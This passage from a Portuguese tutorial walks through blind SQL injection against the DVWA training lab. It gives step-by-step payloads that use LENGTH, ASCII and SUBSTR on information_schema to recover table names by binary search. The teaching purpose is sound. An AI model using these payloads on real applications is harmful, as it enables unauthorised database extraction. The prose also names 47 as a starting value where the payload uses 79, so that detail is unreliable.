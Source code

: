 Pelo retorno negativo inferimos que a quantidade de caracteres no nome da segunda tabela é menor que 5. Vamos tentar um número intermediário, 3:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)>3 #
```

Agora com o retorno positivo então sabemos que a quantidade de caracteres ou é 4 ou 5. Vamos tentar com a igualdade:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)=4 #
```

Falso, então vamos tentar 5, só para confirmar:

```
1' AND (SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1)=5 #
```

Certo, então temos que a primeira tabela tem um nome de 9 caracteres e a segunda de 5 caracteres. Vamos continuar com esse processo manual para extrair o nome da segunda tabela, letra por letra. Para isso vamos utilizar a função `ASCII()` e `SUBSTR()`. `ASCII()` vai converter a letra para o caractere ASCII correspondente, assim podemos continuar usando a lógica de busca binária para ser mais prática a extração. Já a função `SUBSTR()` serve para pegarmos letra por letra do nome da tabela.

Vamos começar pela primeira letra do nome da segunda tabela. Os caracteres ASCII imprimíveis vão de 32 até 127, então temos esse range de busca. Vamos começar por um valor intermediário, 47. Envie o seguinte no DVWA:

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>79 #
```

Sendo verdadeiro, vamos incrementar para um valor intermediário da segunda parte do intervalo, 103.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>103 #
```

Continua verdadeiro, então incrementamos ainda mais, agora o número será 115.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>115 #
```

Ainda sendo verdadeiro, vamos para outro número entre 115 e 127, será 121.

```
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 1), 1, 1))>121 #
```

Agora deu falso, o que significa que o número está no intervalo entre 115 e 121. Vamos escolher um número intermediário, 118.
